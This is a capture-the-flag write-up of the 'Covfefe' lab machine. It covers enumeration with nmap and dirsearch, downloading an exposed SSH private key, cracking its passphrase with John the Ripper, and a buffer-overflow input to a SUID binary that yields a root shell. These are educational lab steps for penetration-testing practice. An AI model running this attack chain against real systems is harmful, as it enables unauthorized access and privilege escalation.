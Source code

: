 # Covfefe

## Nmap

```
sudo nmap 192.168.184.10 -p- -sS -sV                            


PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.4p1 Debian 10 (protocol 2.0)
80/tcp    open  http    nginx 1.10.3
31337/tcp open  Elite?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I started off with port 80 and was unable to identify any directories or files. The default page for the port goes to installation for nginix.

![](<../../../.gitbook/assets/image (1245).png>)

When attempting to browse to port 31337 we are given a 404 not found error. I then ran `dirsearch.py` against the port using the command below which discovered what appeared to be a users home directory contents.

```
python3 dirsearch.py -u http://192.168.184.10:31337 -w /usr/share/seclists/Discovery/Web-Content/big.txt -t 60 --full-url
```

![](<../../../.gitbook/assets/image (1246).png>)

Checking out the /.ssh directory appears to list sub folder contents.

![](<../../../.gitbook/assets/image (1247).png>)

I first downloaded the id\_rsa and then authorized\_keys.

```
http://192.168.184.10:31337/.ssh/id_rsa
http://192.168.184.10:31337/.ssh/authorized_keys
```

Viewing the contents of authorized\_keys shows the user simon having a key in the file. First use `chmod` on the id\_rsa to set the correct permissions.

```
chmod 600 id_rsa
```

When attempting to use the key to connect by SSH we are prompted to provide a passphrase.

![](<../../../.gitbook/assets/image (1248).png>)

Using ssh2john we can convert the key to a hash which can be sent to John for cracking.

```
/usr/share/john/ssh2john.py id_rsa > /home/kali/Desktop/hash
sudo john --wordlist=/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt /home/kali/Desktop/hash
```

![](<../../../.gitbook/assets/image (1249).png>)

Now that we have the password `starwars` for for the key we can try signing in again.

```
ssh -i id_rsa simon@192.168.184.10
```

![](<../../../.gitbook/assets/image (1250).png>)

I then transferred over `linpeas` and executed. Linpeas then identified the binary `/usr/local/bin/read_message` as having the SUID bit set.

![](<../../../.gitbook/assets/image (1251).png>)

Running the binary and entering the name 'Simon' produces the following output:

![](<../../../.gitbook/assets/image (1252).png>)

As per the message we can read the source code. Listing the contents of the root directory shows the source code file.

![](<../../../.gitbook/assets/image (1253).png>)

It looks like as per the script it will read the first 5 characters to validate if correct but, has a total buffer for 20. We can try to overflow the buffer to execute a command.

Running the following when prompted to do so by the binary will give us a root shell.

```
Simonaaaaaaaaaaaaaaa/bin/sh
```

![](<../../../.gitbook/assets/image (1254).png>)
